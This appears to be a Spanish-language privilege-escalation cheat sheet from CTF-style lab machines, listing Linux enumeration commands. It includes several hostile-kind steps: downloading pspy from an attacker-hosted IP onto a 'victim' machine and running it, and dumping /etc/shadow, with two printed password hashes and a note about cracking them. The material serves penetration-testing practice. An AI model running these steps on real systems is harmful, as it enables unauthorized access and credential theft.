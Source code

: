 
### LISTAR SIEMPRE TODOS LOS ARCHIVOS DE CADA DIRECTORIO
```shell
developer@ambassador:~$ ls -al
```

### LISTAR GRUPOS
```shell
www-data@webserver:/$ id
```

### LISTAR PRIVILEGIOS UID PARA VER SI TENEMOS ALGUN BINARIO CON SUDO
```shell
www-data@webserver:/$ find / -perm -4000 2>/dev/null
```

### LISTAR PRIVILEGIOS UID PARA VER SI TENEMOS ALGUN BINARIO INTERESANTE...
```shell
www-data@webserver:/$ find / -perm -4000 2>/dev/null
```

### BUSCAR EN LA RAIZ POR UN GRUPO EN ESPECIFICO.
```shell
kyle@writer:/$ cd /
kyle@writer:/$ find . -group filter 2>/dev/null
```



### LISTAR ARCHIVOS GIT
```shell
roy@zetta:/$ find \-name .git 2>/dev/null
```



### VERSIÓN DEL SISTEMA
```shell
uname -a

lsb_release -a
```



### TAREAS CRONTAB
```shell
amrois@nineveh:/$ cat /etc/crontab
```


### TAREAS CON SYSTEMCTL
```shell
amrois@nineveh:/$ systemctl list-timers
```


# PSPY
```shell
#EN NUESTRA MÁQUINA LOCAL
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
python3 -m http.server 80

#EN MÁQUINA VICTIMA
wget http://192.168.45.233/pspy64
chmod +x ./pspy64
./pspy64
```


### BASH SCRIPT CRONTAB /tmp
```bash
old=$(ps -eo command)
while true; do
    new=$(ps -eo command)
    diff <(echo "$old") <(echo "$new") | grep [\<\>]
    sleep 1
    old=$new
done
```



### PROCESOS DEL SISTEMA
```shell
www-data@moderators:/var/www/html/logs/uploads$ ps -faux
	dash@usage:~/.config$ ss -tlpn
```


### PUERTOS INTERNOS ABIERTOS
```shell
www-data@moderators:/var/www/html/logs/uploads$ netstat -nat

www-data@moderators:/var/www/html/logs/uploads$ ss -nltp
```

### GETCAP
```shell
www-data@apocalyst:/$ which getcap
```


### LISTAT CAPACIDADES CON GETCAP
```shell
www-data@apocalyst:/$ getcap -r / 2>/dev/null
```


### VER SI PODEMOS EDITAR EL /etc/passwd
```shell
find / -writable -ls 2>/dev/null | grep -vE "/var|/run|/dev|/tmp|/lib|/proc|/sys"
```


### /ETC/SHADOW
```shell
#Podemos crackear los hashes...
root@webserver:/tmp# cat /etc/shadow
root:$y$j9T$s/Aqv48x449udndpLC6eC.$WUkrXgkW46N4xdpnhMoax7US.JgyJSeobZ1dzDs..dD:19612:0:99999:7:::
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
```
